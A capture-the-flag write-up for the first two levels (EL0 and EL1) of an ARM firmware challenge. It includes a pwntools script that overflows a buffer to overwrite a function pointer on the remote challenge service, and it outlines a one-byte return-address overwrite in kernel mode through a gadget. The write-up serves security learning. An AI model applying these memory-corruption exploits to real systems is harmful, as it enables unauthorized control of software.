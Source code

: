 I only passed the first and the second level of this challenge.

#### EL0

##### Observation

First, we have bios.bin. bios.bin can be divided into several parts which contain the codes of different levels.

You can find an ELF binary appended to bios.bin. Then you can reverse it.

The binary contains the code of EL0 level.

##### exploit
1. There is a `print_flag` function at 0x400104.
2. Customized scanf with gets can trigger overflow.
3. Just overwrite the function pointer and print flag.


```python=
from pwn import *


r=remote("52.195.11.111",6666)

r.recvuntil("cmd> ")
r.sendline("0")
r.recvuntil("index: ")
r.sendline("a"*0x100+p64(0x400104))

r.interactive()

```

#### EL1

##### Observation

In gdb, if you step in svc instruction, you'll get into supervisor level which is EL1 level.

The code base is 0xffffffffc0000000. And you can find the code of EL1 level in bios.bin at 0xB0000

##### exploit

1. There is also a print_flag function in EL1 level. It's located at 0xffffffffc0008408.
2. You can leverage mprotect to make good use of shellcode.
3. Fortunately, there is no ASLR. We can find out that the return address of the function that handles syscall is stored at a fixed address which is 0xffffffffc0019bb9
4. Trigger read like this, `read(0,0xffffffffc0019bb8,1)`, can overwrite the return address then control the control flow in EL1 level.
5. However, we can only overwrite one byte. The original return address is 0xffffffffc000a830. We cannot change it to 0xffffffffc0008408.
6. After a while, I found an useful gadget at 0xffffffffc0008f30 which will return again. And the return address is located at 0xffffffffc0019c08.
7. First, put the print_flag address at 0xffffffffc0019c08. Then trigger `read(0,0xffffffffc0019bb9,1)` so as to replace return address 0xffffffffc000a830 with 0xffffffffc0008f30.
